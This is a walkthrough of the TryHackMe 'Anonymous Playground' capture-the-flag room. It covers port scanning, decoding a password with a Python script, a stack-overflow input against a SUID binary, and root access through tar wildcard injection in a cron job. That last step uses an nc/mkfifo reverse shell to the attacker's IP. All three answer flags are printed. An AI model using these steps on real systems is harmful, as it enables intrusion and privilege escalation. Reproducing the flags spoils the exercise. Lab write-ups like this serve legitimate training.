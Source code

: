 # Anonymous Playground

Want to become part of Anonymous? They have a challenge for you. Can you get the flags and become an operative?

[Anonymous Playground](https://tryhackme.com/room/anonymousplayground)

- Network Enumeration
- Web Poking
- Cookie Manipulation
- Python Scripting (Decoding)
- Reverse Engineering
- Exploiting Crontab

## Lưu trữ phụ lục

Password: `1 kn0w 1 5h0uldn'7!`

## Task 1 Prove Yourself

So, you've decided to sign up with Anonymous? Well, it won't be that easy. They've constructed a vulnerable CTF machine for
you to hack your way into and prove you have what it takes to become a member of Anonymous. Can you do it? Do you have
what it takes?

There's 3 flags on this machine. Two will be users, the other user will be the almighty root.

I have to credit Robin for his insane dedication to helping me with all of my RE and Binex questions. Without his patience,
I would have never been able to create this room the way I had imagined it. So thank you sir.

Also credit goes to Sq00ky for the super special idea found in the initial foothold stage (not going to give any
spoilers away!)

Please allow 3-5 minutes for the box to fully deploy once you hit the "Deploy" button.

```
bibo318@parrot:~/CTFs/tryhackme/Anonymous Playground$ sudo nmap -A -sS -sC -sV -O 10.10.149.68
[sudo] password for kali:
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-20 18:10 CEST
Nmap scan report for 10.10.149.68
Host is up (0.034s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 60:b6:ad:4c:3e:f9:d2:ec:8b:cd:3b:45:a5:ac:5f:83 (RSA)
|   256 6f:9a:be:df:fc:95:a2:31:8f:db:e5:a2:da:8a:0c:3c (ECDSA)
|_  256 e6:98:52:49:cf:f2:b8:65:d7:41:1c:83:2e:94:24:88 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-robots.txt: 1 disallowed entry
|_/zYdHuAKjP
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Proving Grounds
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=10/20%OT=22%CT=1%CU=35745%PV=Y%DS=2%DC=T%G=Y%TM=5F8F0C
OS:04%P=x86_64-pc-linux-gnu)SEQ(SP=105%GCD=1%ISR=10D%TI=Z%CI=Z%II=I%TS=A)OP
OS:S(O1=M508ST11NW7%O2=M508ST11NW7%O3=M508NNT11NW7%O4=M508ST11NW7%O5=M508ST
OS:11NW7%O6=M508ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)EC
OS:N(R=Y%DF=Y%T=40%W=F507%O=M508NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=
OS:AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(
OS:R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%
OS:F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N
OS:%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%C
OS:D=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 53/tcp)
HOP RTT      ADDRESS
1   35.49 ms 10.8.0.1
2   35.60 ms 10.10.149.68

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.98 seconds
```

[http://10.10.149.68/robots.txt](http://10.10.149.68/robots.txt)

```
User-agent: *
Disallow: /zYdHuAKjP
```

[http://10.10.149.68/zYdHuAKjP/](http://10.10.149.68/zYdHuAKjP/)

![](./2020-10-20_18-13.png)

![](./2020-10-20_18-14.png)

`hEzAdCfHzA::hEzAdCfHzAhAiJzAeIaDjBcBhHgAzAfHfN`

```py
def positions(str):
    list1 = []
    for i in str:
        list1.append((ord(i) & 31))

    res = []
    for ele in range(0, len(list1), 2):
        res.append((list1[ele] + list1[ele + 1]) % 26)


    for i in range(len(res)):
        print(chr(res[i] + 64).lower(), end=" ")

str1 = "hEzAdCfHzA"
positions(str1)
print("::", end=" ")
str2 = "hEzAdCfHzAhAiJzAeIaDjBcBhHgAzAfHfN"
positions(str2)
```

```
bibo318@parrot:~/CTFs/tryhackme/Anonymous Playground$ python3 script.py
m a g n a :: m a g n a i s a n e l e p h a n t
```

`magna::magnaisanelephant`

```
magna@anonymous-playground:~$ ls -la
total 64
drwxr-xr-x 7 magna  magna  4096 Jul 10 02:17 .
drwxr-xr-x 5 root   root   4096 Jul  4 19:25 ..
lrwxrwxrwx 1 root   root      9 Jul  4 19:42 .bash_history -> /dev/null
-rw-r--r-- 1 magna  magna   220 Jul  4 16:47 .bash_logout
-rw-r--r-- 1 magna  magna  3771 Jul  4 16:47 .bashrc
drwx------ 2 magna  magna  4096 Jul  4 20:49 .cache
drwxr-xr-x 3 magna  magna  4096 Jul  7 01:04 .config
-r-------- 1 magna  magna    33 Jul  4 19:44 flag.txt
drwx------ 3 magna  magna  4096 Jul  4 20:49 .gnupg
-rwsr-xr-x 1 root   root   8528 Jul 10 01:47 hacktheworld
drwxrwxr-x 3 magna  magna  4096 Jul  4 20:47 .local
-rw-r--r-- 1 spooky spooky  324 Jul  6 21:24 note_from_spooky.txt
-rw-r--r-- 1 magna  magna   807 Jul  4 16:47 .profile
drwx------ 2 magna  magna  4096 Jul  4 20:55 .ssh
-rw------- 1 magna  magna   817 Jul  7 01:52 .viminfo
magna@anonymous-playground:~$ cat flag.txt
9184177ecaa83073cbbf36f1414cc029
```

```
magna@anonymous-playground:~$ cat note_from_spooky.txt
Hey Magna,

Check out this binary I made!  I've been practicing my skills in C so that I can get better at Reverse
Engineering and Malware Development.  I think this is a really good start.  See if you can break it!

P.S. I've had the admins install radare2 and gdb so you can debug and reverse it right here!

Best,
Spooky
```

```
magna@anonymous-playground:~$ (python -c 'print "A"*72 + "\x58\x06\x40\x00\x00\x00\x00\x00"' ; cat) | ./hacktheworld
Who do you want to hack?
We are Anonymous.
We are Legion.
We do not forgive.
We do not forget.
[Message corrupted]...Well...done.
python -c 'import pty; pty.spawn("/bin/bash")'
spooky@anonymous-playground:/home/spooky$ cat flag.txt
cat flag.txt
69ee352fb139c9d0699f6f399b63d9d7
```

```
spooky@anonymous-playground:/home/spooky$ cat /etc/crontab
cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*/1 *   * * *   root    cd /home/spooky && tar -zcf /var/backups/spooky.tgz *
```

```
spooky@anonymous-playground:/home/spooky$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.106.222 9001 >/tmp/f" > shell.sh
/f|/bin/sh -i 2>&1|nc 10.8.106.222 9001 >/tmp/f" > shell.sh
spooky@anonymous-playground:/home/spooky$ echo "" > "--checkpoint-action=exec=sh shell.sh"
 shell.sh""--checkpoint-action=exec=sh
spooky@anonymous-playground:/home/spooky$ echo "" > --checkpoint=1
echo "" > --checkpoint=1
spooky@anonymous-playground:/home/spooky$
```

```
bibo318@parrot:~/CTFs/tryhackme/Anonymous Playground$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.8.106.222] from (UNKNOWN) [10.10.149.68] 41480
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# cd /root
# ls
flag.txt
# cat flag.txt
bc55a426e98deb673beabda50f24ce66
```

1. User 1 Flag

`9184177ecaa83073cbbf36f1414cc029`

2. User 2 Flag

`69ee352fb139c9d0699f6f399b63d9d7`

3. Root Flag

`bc55a426e98deb673beabda50f24ce66`
